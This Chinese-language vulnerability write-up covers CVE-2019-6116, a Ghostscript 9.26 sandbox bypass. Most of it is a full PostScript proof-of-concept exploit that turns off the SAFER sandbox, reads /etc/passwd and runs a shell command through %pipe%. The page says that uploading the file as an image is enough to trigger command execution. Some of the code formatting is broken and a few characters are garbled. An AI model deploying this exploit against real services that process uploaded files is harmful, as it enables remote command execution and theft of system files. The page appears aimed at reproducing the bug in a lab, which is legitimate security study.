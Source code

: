 ```yaml
---
title: "（CVE-2019-6116）GhostScript 沙箱绕过（命令执行）漏洞"
id: zhfly2954
---
```


# （CVE-2019-6116）GhostScript 沙箱绕过（命令执行）漏洞

## 一、漏洞简介

Ghostscript 9.26版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

## 二、漏洞影响

Ghostscript 9.26版本

## 三、复现过程

**poc.png**

```
%!PS
% extract .actual_pdfpaintproc operator from pdfdict
/.actual_pdfpaintproc pdfdict /.actual_pdfpaintproc get def

/exploit {

(Stage 11: Exploitation…)=

```
/forceput exch def

systemdict /SAFER false forceput
userparams /LockFilePermissions false forceput
systemdict /userparams get /PermitFileControl [(*)] forceput
systemdict /userparams get /PermitFileWriting [(*)] forceput
systemdict /userparams get /PermitFileReading [(*)] forceput

% update
save restore

% All done.
stop 
```

} def

errordict /typecheck {

/typecount typecount 1 add def

(Stage 10: /typecheck #)=only typecount ==

```
% The first error will be the .knownget, which we handle and setup the
% stack. The second error will be the ifelse (missing boolean), and then we
% dump the operands.
typecount 1 eq { null } if
typecount 2 eq { pop 7 get exploit } if
typecount 3 eq { (unexpected)= quit }  if 
```

} put

% The pseudo-operator .actual_pdfpaintproc from pdf_draw.ps pushes some

% executable arrays onto the operand stack that contain .forceput, but are not

% marked as executeonly or pseudo-operators.

%

% The routine was attempting to pass them to ifelse, but we can cause that to

% fail because when the routine was declared, it used `bind` but many of the

% names it uses are not operators and so are just looked up in the dictstack.

%

% This means we can push a dict onto the dictstack and control how the routine

% works.

<<

/typecount      0

/PDFfile        { (Stage 0: PDFfile)= currentfile }

/q              { (Stage 1: q)= } % no-op

/oget           { (Stage 3: oget)= pop pop 0 } % clear stack

/pdfemptycount  { (Stage 4: pdfemptycount)= } % no-op

/gput           { (Stage 5: gput)= }  % no-op

/resolvestream  { (Stage 6: resolvestream)= } % no-op

/pdfopdict      { (Stage 7: pdfopdict)= } % no-op

/.pdfruncontext { (Stage 8: .pdfruncontext)= 0 1 mark } % satisfy counttomark and index

/pdfdict        { (Stage 9: pdfdict)=

% cause a /typecheck error we handle above

true

}

>> begin <<>> <<>> { .actual_pdfpaintproc } stopped pop

(Should now have complete control over ghostscript, attempting to read /etc/passwd…)=

% Demonstrate reading a file we shouldnt have access to.

(/etc/passwd) ® file dup 64 string readline pop == closefile

(Attempting to execute a shell command…)= flush

% run command

(%pipe%id > /tmp/success) (w) file closefile

(All done.)= `quit` 
```

上传这个poc文件，即可执行`id > /tmp/success`：

![image](../img/1955e4e86937e64a9a8f004eafe2f234.png)

## 参考链接

> https://vulhub.org/#/environments/ghostscript/CVE-2019-6116/